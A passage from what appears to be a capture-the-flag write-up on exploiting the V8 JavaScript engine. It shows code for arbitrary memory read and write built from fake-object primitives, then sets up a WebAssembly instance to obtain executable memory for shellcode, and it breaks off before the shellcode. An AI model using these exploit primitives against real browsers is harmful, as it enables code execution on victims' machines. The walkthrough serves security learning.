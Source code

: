 I’ll add that as a clean function to my `exploit.js` file:

```

var arr2 = [itof(float_array_map), 1.1, 2.2, 3.3];
var fake = fakeobj(addrof(arr2)-0x20n);

function arbread(addr) {
    if (addr % 2n == 0) {
        addr += 1;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    return (fake[0]);
}

```

#### arbwrite

To do an arbitrary write, I’ll do the same thing, setting the fake object’s elements array address and then setting the 0 element (as opposed to reading it):

```

function arbwrite(addr, val) {
    if (addr % 2n == 0) {
        addr += 1;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    fake[0] = itof(BigInt(val));
}

```

### v8 Exploit

With the primitives I need in place, generate the exploit, continuing along in [Faith’s oob-v8 writeup](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) with the WebAssembly Technique.

#### Create RWX Segment

I’m planning to write some shellcode to memory and then execute it. In order to do this, I’ll need a RWX memory segment, and WebAssembly is a way to do that. I’ll yank the code right from Faith’s post:

```

// https://wasdk.github.io/WasmFiddle/
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

```
